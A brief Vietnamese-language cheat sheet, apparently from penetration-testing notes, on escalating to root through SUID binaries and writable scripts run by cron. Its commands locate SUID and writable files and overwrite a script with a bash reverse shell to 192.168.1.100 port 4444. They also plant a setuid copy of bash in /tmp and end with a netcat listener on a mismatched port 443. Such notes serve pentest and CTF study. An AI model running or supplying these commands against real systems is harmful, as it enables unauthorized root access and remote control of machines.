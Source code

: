 # SUID Binaries

## Điểm chính khai thác

* Tệp nhị phân hoặc tập lệnh được đặt bit SUID (Set User ID) chạy với quyền của chủ sở hữu (thường là root), cho phép người dùng thực thi lệnh tùy ý với đặc quyền cao.
* Thực thi mã hoặc mở shell với quyền root, dẫn đến nâng quyền từ người dùng thường lên quản trị.
* Chạy tệp nhị phân SUID (ví dụ: find, vim, nano) hoặc tập lệnh được tham chiếu có bit SUID được thiết lập, thường được tìm thấy trong các thư mục như /usr/bin/, /usr/local/bin/.
* Tập lệnh tùy chỉnh có bit SUID, nếu được cấu hình sai, có thể bị lạm dụng để thực thi mã độc.

## Các bước khai thác

### Kiểm tra lỗ hổng

Kiểm tra tệp nhị phân SUID:

```
find / -perm -4000 -type f 2>/dev/null
```

Kiểm tra quyền truy cập tập lệnh/thư mục:

```
find / -writable -type f 2>/dev/null
```

### Thực thi khai thác

Ghi đè tập lệnh có thể ghi:

```
echo '/bin/bash -i >& /dev/tcp/192.168.1.100/4444 0>&1' > <file>
```

Tạo shell SUID:

```
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > <file>
```

Khai thác tệp nhị phân SUID:

```
find . -exec whoami \;
```

**Kích hoạt khai thác**

Chờ cron thực thi tập lệnh để kích hoạt payload:

```
nc -lvnp 443
```
